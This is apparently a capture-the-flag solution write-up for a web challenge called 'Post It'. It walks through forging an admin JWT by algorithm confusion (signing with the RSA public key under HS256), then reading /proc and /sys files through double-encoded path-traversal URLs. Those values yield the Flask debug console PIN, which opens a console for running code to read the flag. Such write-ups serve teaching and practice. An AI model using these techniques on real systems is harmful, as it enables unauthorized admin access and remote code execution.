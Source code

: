 # Solution to Post It

1. Log in with the credentials `test_user:password`.
2. Click on `RSA Key` in the navbar.
3. Copy the public key.
4. Copy your JWT token.
5. Use a JWT debugger to set `admin` to `true` and `alg` to `HS256`. Sign the token with the public key using HS256.
5. Change your JWT token to the new token.
6. Refresh the page and you should be logged in as admin.
7. The `/view` endpoint is vulnerable to path traversal, but there is a filter preventing you from reading the flag.
8. Get the needed info to generate the Flask debug console PIN from the following urls:
- `http://example.com/view/..%252F..%252Fproc/net/arp (Get the network interface name)`
- `http://example.com/view/..%252F..%252Fsys/class/net/*/address ("*": network interface name, Get the MAC address)`
- `http://example.com/view/..%252F..%252Fproc/sys/kernel/random/boot_id (Get the boot ID)`
- `http://example.com/view/..%252F..%252F/proc/self/cgroup (Only take the part after the last slash in the first line)`
9. Put the 2 strings obtained into [here](./get_key.py) and run the script. The PIN will be printed.
10. Go to `http://example.com/console` and enter the PIN. Execute the following command to get the flag:
```python
print(open('/flag.txt').read())
```